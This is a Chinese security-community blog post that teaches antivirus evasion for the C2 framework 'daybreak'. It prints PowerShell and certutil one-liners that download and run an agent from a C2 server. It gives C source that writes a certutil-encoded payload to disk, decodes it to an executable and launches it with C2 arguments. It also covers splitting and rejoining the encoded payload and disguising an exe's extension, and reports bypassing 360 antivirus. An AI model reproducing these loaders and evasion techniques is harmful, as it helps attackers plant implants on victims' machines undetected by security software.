# 免杀学习-从指令绕过开始(1) - 先知社区

免杀学习-从指令绕过开始(1)

* * *

# 免杀学习-从指令绕过开始-1

# 破晓

免杀新伙伴-daybreak，这个工具是类似CS的工具

下面的图片是它的控制界面，利用了Web界面更加简介美观且自带中文

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163540-e493cada-32a1-1.png)

分析一下它自带的上线语句

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163615-f9f37146-32a1-1.png)

支持多种操作系统的上线，相比CS需要按照插件才能上线linux更加集成

支持利用powershell和certutil指令进行上线操作

```plain
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://127.0.0.1:1338/d/pzxsnoqd','pzxsnoqd.exe') && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe

certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

需要注意的是破晓的上线操作需要利用探针的参数才行，比如这里的e75tdmwe

# 初步测试

我们将自带的命令进行编译生成exe文件直接尝试上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163630-02d3e1a6-32a2-1.png)

### 在360环境下测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163651-0f4b3bbe-32a2-1.png)

静态免杀没问题，尝试上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163707-18822634-32a2-1.png)

上线失败被阻止

### 在火绒环境下运行

静态云查杀依旧没有问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163728-254cd2c4-32a2-1.png)

尝试上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163748-3111d2f8-32a2-1.png)

果然还是被阻止了

### 进行文件分析

效果显示很不错

```plain
https://www.virustotal.com/gui/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163804-3ae019d4-32a2-1.png)

这个就更离谱了

```plain
https://www.virscan.org/language/zh-cn/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163816-41c948c4-32a2-1.png)

# 进阶

通过利用certutil自带的加解密功能进行木马的免杀

加密代码

```plain
Certutil -encode C+Powershell.exe out.txt
```

C语言源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    #将解密的内容写入一个文件中
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"
        #C2文件加密的内容
        "-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    #进行解密
    system("Certutil -decode encryption.txt test.exe");
    #确保上述代码运行完成
    Sleep(5000);
    system("test.exe C2执行参数");
    return 0;
}
```

再次编译生成exe文件，点击运行，首先产生一个解码文件，然后再次产生可执行文件，最终达到上线，下图时

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163850-56423ffe-32a2-1.png)

### 火绒环境下

发现成功产生了解密文件和木马文件，但木马文件运行时仍出现告警

### 360环境下

我没想到火绒杀了，联网的360居然没杀，成功上线

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163909-619acbd2-32a2-1.png)

进行360木马查杀中的快速查杀，居然还没杀掉

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163940-7409e3ac-32a2-1.png)

# 技巧一（缝合）

当我们利用certutil进行的时候，会发现我们加密后的数据过于冗长可能会在上传过程中遇到很多问题，那么我们可以利用文件切割，再利用我们的COPY指令进行缝合

```plain
copy 1.txt+2.txt+...+n.txt  out.txt
```

最后利用

```plain
certutil -decode out.txt   C2可执行文件名.exe
```

我们通过以下命令进行加密，产生txt文件

```plain
Certutil -encode C+Powershell.exe out.txt
```

利用文本切割器，按照每500行一份进行切割

```plain
文本切割器网站
https://uutool.cn/txt-incise/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804163956-7d776554-32a2-1.png)

我们将文本缝合后利用certutil进行解密

```plain
certutil -decode out.txt test.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804164013-87690b4e-32a2-1.png)

运行木马程序

火绒报错

360在文本进行编译成exe后直接报警

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804164028-90499198-32a2-1.png)

### 技巧二（冷知识）

windows命令行，中执行命令对文件判断时，不是判断文件后缀而是判断文件头，因此如果我们是exe文件，我们修改后缀为jpg等依旧可以额执行命令

测试代码如下

```plain
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"

"-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    return 0;
}
```

进行命令执行

[](http://xz.aliyun.com/t/%E8%BF%9B%E9%98%B6%E5%85%8D%E6%9D%801-0/image-20230327172739414.png)

命令执行结果

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804164112-aac13260-32a2-1.png)

但当我们想直接在C中将解密后的文件修改后缀再启动时，会遇到以下错误，解密文件会产生成功但无法执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20230804164130-b529af0c-32a2-1.png)
